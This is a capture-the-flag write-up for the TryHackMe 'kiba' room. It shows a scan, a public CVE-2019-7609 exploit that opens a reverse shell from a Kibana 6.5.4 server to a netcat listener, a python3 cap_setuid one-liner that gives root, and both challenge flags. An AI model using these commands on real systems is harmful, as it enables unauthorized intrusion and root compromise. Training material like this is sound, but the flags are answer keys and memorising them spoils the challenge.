

| Category          | Details                                 |
|-------------------|-----------------------------------------|
| 📝 **Name**       | [kiba](https://tryhackme.com/room/kiba) |  
| 🏷 **Type**       | THM Challenge                           |
| 🖥 **OS**         | Linux                                   |
| 🎯 **Difficulty** | Easy                                    |
| 📁 **Tags**       | Kibana, CVE-2019-7609, cap_setuid+ep    |

## Task 1: Flags

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?
The vulnerability that is specific to programming languages with prototype-based inheritance is called 'prototype pollution'.

### What is the version of visualization dashboard installed in the server?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM kiba]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-14 21:25 +0100
Nmap scan report for 10.80.168.207
Host is up (0.044s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  http         Elasticsearch Kibana (serverName: kibana)
| http-title: Kibana
|_Requested resource was /app/kibana
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.08 seconds
```

#### Access Kibana hosted at port 5601

We can see that Kibana in version 6.5.4 is running on target.

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
According to description of [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/CVE-2019-7609):
> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

### Compromise the machine and locate user.txt

#### Start `nc` to listen fo reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM kiba]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Exploit [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/CVE-2019-7609) to spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM kiba]
└─$ git clone -q https://github.com/Cr4ckC4t/cve-2019-7609 && \
python3 cve-2019-7609/cve-2019-7609.py http://$TARGET:5601 $LHOST 4444
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 192.168.131.53:4444
```

#### Confirm initial foothold gained
```
connect to [192.168.131.53] from (UNKNOWN) [10.82.174.238] 47922
bash: cannot set terminal process group (990): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

#### Capture user flag
```
kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```

### How would you recursively list all of these capabilities?
To recursively list all capabilities we could use `getcap -r /` (or `getcap -r / 2>/dev/null`).

### Escalate privileges and obtain root.txt

#### Recursively list all capabilities
```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
We can see that `/home/kiba/.hackmeplease/python3` has powerful `cap_setuid+ep`

#### Abuse `cap_setuid+ep` of `/home/kiba/.hackmeplease/python3` to spawn root shell
```
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

#### Capture root flag
```
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
